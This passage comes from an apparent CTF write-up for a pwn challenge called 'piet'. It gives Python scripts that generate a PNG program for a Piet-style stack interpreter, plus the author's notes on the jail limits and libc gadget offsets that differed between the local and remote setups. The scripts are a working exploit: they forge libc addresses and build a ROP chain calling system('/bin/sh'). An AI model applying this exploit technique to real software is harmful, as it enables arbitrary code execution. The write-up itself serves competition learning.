  pixels.append(action_rgb)
  pixels.append(WHITE)

  return pixels


def forge_last(instruction, size=1):
  base_hue, base_light = (0, 1)
  action_rgb = get_action_color(base_hue, base_light, instruction)

  pixels = []
  for _ in range(size):
    pixels.append(COLORS[(base_hue, base_light)])

  pixels.append(action_rgb)

  return pixels, action_rgb


def main():
  exploit_pixels = []

  exploit_pixels += build_pixel("UP", size=1) * 272
  exploit_pixels += build_pixel("PUSH", size=0xDEAD)
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)

  last_pixels, final_action_rgb = forge_last("UP", size=1)
  exploit_pixels += last_pixels

  L = len(exploit_pixels)
  width = L
  height = 2
  img = Image.new("RGB", (width, height), color=BLACK)

  img_pixels = img.load()

  for x in range(L):
    img_pixels[x, 0] = exploit_pixels[x]

  img_pixels[L - 1, 1] = final_action_rgb
  img_pixels[L - 2, 1] = final_action_rgb

  img.save("okay.png")


if __name__ == "__main__":
  main()
```

I updated some pixels and position in script so that program halts. To halt the program, we have to exhaust all the attempts, means every time exit_codel is chosen, there should be either black color in the direction of DP or it should be OOB.



These are the works I did while trying to understand this, just in case it's useful to anyone.
After that it's simple. To do ROP, we need 4 libc address on stack, RET, POP_RDI, BIN_SH, SYSTEM. Push each offsets on stack, roll original libc address, subtract offsets or add offsets and dup it to another place and repeat this process. Initially my script had some IHDR chunk limit problem while creating offsets, but when I used more zeroes and multiplied and summed with lesser number, payload.png did not exceed limit. After forging all libc address, roll it so that it rop chain goes to rsp.



This is the stack dump at which main returns, you can see the libc address here, I put offset in place of `0xdead` and then pushed 0x2 and 0x1, then I rolled so that upper libc 32 bits do not clobber and takes the place of `0xdead`, and then used `DOWN` and `SUB` to get libc base, Then `DUP` to place it at 0x18(memory for rolling and forging)+0x20(4 libc address). After that repeat the process for bin_sh,pop_rdi and ret.

```python
from PIL import Image
import io

COLORS = {
  (0, 0): (192, 0, 0),  #     (0xC00000)
  (0, 1): (255, 0, 0),  #   (0xFF0000)
  (0, 2): (255, 192, 192),  #    (0xFFC0C0)
  (1, 0): (192, 192, 0),  #  (0xC0C000)
  (1, 1): (255, 255, 0),  # (0xFFFF00)
  (1, 2): (255, 255, 192),  # (0xFFFFC0)
  (2, 0): (0, 192, 0),  #   (0x00C000)
  (2, 1): (0, 255, 0),  # (0x00FF00)
  (2, 2): (192, 255, 192),  #  (0xC0FFC0)
  (3, 0): (0, 192, 192),  #    (0x00C0C0)
  (3, 1): (0, 255, 255),  #  (0x00FFFF)
  (3, 2): (192, 255, 255),  #   (0xC0FFFF)
  (4, 0): (0, 0, 192),  #    (0x0000C0)
  (4, 1): (0, 0, 255),  #  (0x0000FF)
  (4, 2): (192, 192, 255),  #   (0xC0C0FF)
  (5, 0): (192, 0, 192),  # (0xC000C0)
  (5, 1): (255, 0, 255),  # (0xFF00FF)
  (5, 2): (255, 192, 255),  # (0xFFC0FF)
}

WHITE = (255, 255, 255)
BLACK = (0, 0, 0)

INSTRUCTIONS = {
  "NOP": (0, 0),
  "PUSH": (0, 1),
  "POP": (0, 2),
  "ADD": (1, 0),
  "SUB": (1, 1),
  "MUL": (1, 2),
  "DIV": (2, 0),
  "MOD": (2, 1),
  "NOT": (2, 2),
  "GT": (3, 0),
  "PTR": (3, 1),
  "SWITCH": (3, 2),
  "DUP": (4, 0),
  "ROLL": (4, 1),
  "UP": (4, 2),
  "IN_C": (5, 0),
  "NUH_UH": (5, 1),
  "DOWN": (5, 2),
}


def get_action_color(start_hue, start_light, instruction):
  dh, dl = INSTRUCTIONS[instruction.upper()]
  target_hue = (start_hue + dh) % 6
  target_light = (start_light + dl) % 3
  return COLORS[(target_hue, target_light)]


def build_pixel(instruction, size=1):
  base_hue, base_light = (0, 1)
  base_rgb = COLORS[(base_hue, base_light)]
  action_rgb = get_action_color(base_hue, base_light, instruction)

  pixels = []
  for _ in range(size):
    pixels.append(base_rgb)
  pixels.append(action_rgb)
  pixels.append(WHITE)

  return pixels


def forge_last(instruction, size=1):
  base_hue, base_light = (0, 1)
  action_rgb = get_action_color(base_hue, base_light, instruction)

  pixels = []
  for _ in range(size):
    pixels.append(COLORS[(base_hue, base_light)])

  pixels.append(action_rgb)

  return pixels, action_rgb


def main():
  exploit_pixels = []

  exploit_pixels += build_pixel("UP", size=1) * 272
  exploit_pixels += build_pixel("PUSH", size=0x2A601)
  exploit_pixels += build_pixel("PUSH", size=2)
  exploit_pixels += build_pixel("PUSH", size=1)

  exploit_pixels += build_pixel("ROLL", size=0x1)
  exploit_pixels += build_pixel("DOWN", size=0x4)
  exploit_pixels += build_pixel("SUB", size=0x1)

  # exploit_pixels += build_pixel("DOWN", size=0x7EEC)
  exploit_pixels += build_pixel("DOWN", size=0x1)

  exploit_pixels += build_pixel("UP", size=0x1)
  exploit_pixels += build_pixel("UP", size=0x1)
  exploit_pixels += build_pixel("UP", size=0x1)
  exploit_pixels += build_pixel("UP", size=0x1)
  exploit_pixels += build_pixel("UP", size=0x1)
  exploit_pixels += build_pixel("ROLL", size=0x1)

  # calculate address of system
  exploit_pixels += build_pixel("DOWN", size=0x1)
  exploit_pixels += build_pixel("PUSH", size=0x00000000005C560)
  exploit_pixels += build_pixel("UP", size=0x1) * 0x2

  exploit_pixels += build_pixel("ROLL", size=0x1)
  exploit_pixels += build_pixel("DOWN", size=0x1) * 0x1
  exploit_pixels += build_pixel("ADD", size=0x1)
  exploit_pixels += build_pixel("UP", size=0x1) * 0x4
  exploit_pixels += build_pixel("ROLL", size=0x1)

  # dup it to +0x8 place and just like that forge four libc address
  exploit_pixels += build_pixel("DOWN", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1) * 0x8

  exploit_pixels += build_pixel("DOWN", size=0x1) * 10
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)

  exploit_pixels += build_pixel("ROLL", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1) * 0x9

  exploit_pixels += build_pixel("DOWN", size=0x1) * 9
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)
  exploit_pixels += build_pixel("ROLL", size=0x1)  # fixed libc address do not fuckup

  # now make bin_sh
  BIN_SH = 0x1DB799
  exploit_pixels += build_pixel("PUSH", size=0xFFFF)
  exploit_pixels += build_pixel("PUSH", size=0x17)
  exploit_pixels += build_pixel("MUL", size=0x1)
  exploit_pixels += build_pixel("PUSH", size=0xF250)
  exploit_pixels += build_pixel("ADD", size=0x1)
  # offset complete
  # change to add
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)
  exploit_pixels += build_pixel("ROLL", size=0x1)
  exploit_pixels += build_pixel("DOWN", size=0x1)
  exploit_pixels += build_pixel("ADD", size=0x1)
  exploit_pixels += build_pixel("UP", size=0x1) * 0x4
  exploit_pixels += build_pixel("ROLL", size=0x1)
  # address complete make it back to its place but before that fix system to new place
  exploit_pixels += build_pixel("UP", size=0x1) * 0x9
  exploit_pixels += build_pixel("DUP", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1)
  exploit_pixels += build_pixel("DOWN", size=0x4) * 0x3
  exploit_pixels += build_pixel("DUP", size=0x1) * 0x2
  # system address new place done
  exploit_pixels += build_pixel("DOWN", size=0x1) * 11
  exploit_pixels += build_pixel("DUP", size=0x1) * 10
  # no need to reverse its stack machine rolling
  # do something to preserver libc address
  exploit_pixels += build_pixel("DOWN", size=0x1) * 10
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)
  exploit_pixels += build_pixel("ROLL", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1) * 0x9

  exploit_pixels += build_pixel("DOWN", size=0x1) * 0x9
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)
  # keep it reversed for easy addition
  # POP_RDI = 0x000000000011BC7A
  # RET = 0x00000000000CF329
  RET = 0x00000000000CF3A9
  POP_RDI = 0x000000000011BCFA
  exploit_pixels += build_pixel("DOWN", size=0x1) * 0x2
  exploit_pixels += build_pixel("PUSH", size=0x10000)
  exploit_pixels += build_pixel("PUSH", size=0xB)
  exploit_pixels += build_pixel("MUL", size=0x1)
  exploit_pixels += build_pixel("PUSH", size=0xFA9F)
  exploit_pixels += build_pixel("ADD", size=0x1)
  exploit_pixels += build_pixel("SUB", size=0x1)
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)
  exploit_pixels += build_pixel("ROLL", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1) * 0x8
  exploit_pixels += build_pixel("DOWN", size=0x1) * 8
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)
  exploit_pixels += build_pixel("ROLL", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1) * 0x7

  # pop rdi done
  # do for ret
  exploit_pixels += build_pixel("DOWN", size=0x1) * 0x7
  exploit_pixels += build_pixel("PUSH", size=0x10000)
  exploit_pixels += build_pixel("PUSH", size=4)
  exploit_pixels += build_pixel("MUL", size=0x1)
  exploit_pixels += build_pixel("PUSH", size=0xC951)
  exploit_pixels += build_pixel("ADD", size=0x1)
  exploit_pixels += build_pixel("SUB", size=0x1)

  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)
  exploit_pixels += build_pixel("ROLL", size=0x1)
  exploit_pixels += build_pixel("DUP", size=0x1) * 0x6
  exploit_pixels += build_pixel("DOWN", size=0x1) * 0x6
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("PUSH", size=0x1)
  exploit_pixels += build_pixel("ROLL", size=0x1)

  exploit_pixels += build_pixel("DUP", size=0x1) * 0x5

  # push chain to stack
  exploit_pixels += build_pixel("UP", size=0x1) * 0x7
  exploit_pixels += build_pixel("PUSH", size=14)
  exploit_pixels += build_pixel("PUSH", size=0x6)
  exploit_pixels += build_pixel("ROLL", size=0x1)

  exploit_pixels += build_pixel("PUSH", size=0x8)
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("ROLL", size=0x1)

  exploit_pixels += build_pixel("DOWN", size=0x1) * 0x6
  exploit_pixels += build_pixel("PUSH", size=0x8)
  exploit_pixels += build_pixel("PUSH", size=0x2)
  exploit_pixels += build_pixel("ROLL", size=0x1)

  last_pixels, final_action_rgb = forge_last("UP", size=1)
  exploit_pixels += last_pixels

  L = len(exploit_pixels)
  width = L
  height = 2

  img = Image.new("RGB", (width, height), color=BLACK)
  img_pixels = img.load()

  for x in range(L):
    img_pixels[x, 0] = exploit_pixels[x]

  img_pixels[L - 1, 1] = final_action_rgb
  img_pixels[L - 2, 1] = final_action_rgb

  img.save("payload.png")


if __name__ == "__main__":
  main()
```

This is the final script which works on remote.

### Remote shenanigans

When I made the exploit initally, it worked in docker given in handout, but did not work on remote.

```Dockerfile
FROM ubuntu@sha256:f3d28607ddd78734bb7f71f117f3c6706c666b8b76cbff7c9ff6e5718d46ff64 AS app

WORKDIR /app

RUN apt-get update && \
    apt-get install -y --no-install-recommends libpng-dev socat && \
    rm -rf /var/lib/apt/lists/*

COPY piet .

EXPOSE 1337

CMD exec socat TCP-LISTEN:1337,reuseaddr,fork EXEC:"/app/piet"
```

This is the local dockerfile.

```Dockerfile
FROM ubuntu@sha256:f3d28607ddd78734bb7f71f117f3c6706c666b8b76cbff7c9ff6e5718d46ff64 AS app

RUN apt-get update && \
    apt-get install -y --no-install-recommends libpng16-16 && \
    rm -rf /var/lib/apt/lists/*

RUN mkdir -p /challenge
WORKDIR /challenge
COPY piet .
COPY flag.txt .

FROM pwn.red/jail@sha256:ee52ad5fd6cfed7fd8ea30b09792a6656045dd015f9bef4edbbfa2c6e672c28c

COPY --from=app / /srv
RUN mkdir -p /srv/app
COPY --chmod=555 ./run /srv/app/run

ENV JAIL_TIME=120 \
    JAIL_MEM=32M \
    JAIL_PIDS=32 \
    JAIL_CONNS=64 \
    JAIL_TMP_SIZE=4M
```

And this is the remote Dockerfile. The difference is the jail. png was excedding the jail limit, well Andyrew found this issue, increased the limit and then updated the handout.


And then when I tried, Segmentation fault occured. Cuz remote had different offsets for gadget(RET and POP_RDI), by 0x80.


### Aftermath



Well This was kinda wild ride, Auditing the challenge consumed most of the time and then local and remote difference, png excedding jail limit. But still, I made it in time(submitted the flag just 15 minutes before end of ctf). Organizing free and fair ctf in 2026 requires different kind of mental strength, with all those people slopping and having no regards for author's effort and time. This is first ctf in 26 that I enjoyed.
All handouts are [here.](https://github.com/el-s1na/CTF-Scripts/tree/main/L3AK-CTF/pwn/piet)

### Memes

Disclaimer: No intention to offend anyone, Just little light humour.
TODO: i sleep i wake
TODO: quagmire dear diary jackpot
